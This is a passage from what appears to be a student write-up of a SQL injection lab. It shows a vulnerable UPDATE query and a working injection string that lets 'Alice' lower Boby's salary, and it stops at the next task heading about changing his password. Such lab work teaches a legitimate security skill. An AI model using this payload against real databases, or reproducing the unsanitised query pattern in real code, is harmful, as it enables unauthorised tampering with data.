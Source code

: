 **Result:**

![Boby's salary modified](./assets/sqli_task_03_02_03.png)

**Explanation:**

The form executes the following SQL statement to the database:

```sql
UPDATE credential SET nickname='$input_nickname', email='$input_email', address='$input_address', PhoneNumber='$input_phonenumber' WHERE ID=$id;
```

In the form, we can pass `', Salary=Salary-1 WHERE Name='Boby'#` to form the following SQL statement:

```sql
UPDATE credential SET nickname='<unknown>', email='<unknown>', address='<unknown>', PhoneNumber='', Salary=Salary-1 WHERE Name='Boby'#' WHERE ID=<unknown>;
```

We have to perform our own `WHERE` clause because as Alice, we do not know what Boby's ID is. The side effect of `WHERE Name='Boby'` is it will decrement all other employees' salary by 1 if their name is also `Boby`. However, based on the information that Alice might have, that is the best solution that she could misuse despite the side effects.

#### Task 3.3

Modify Boby's password (as Alice):
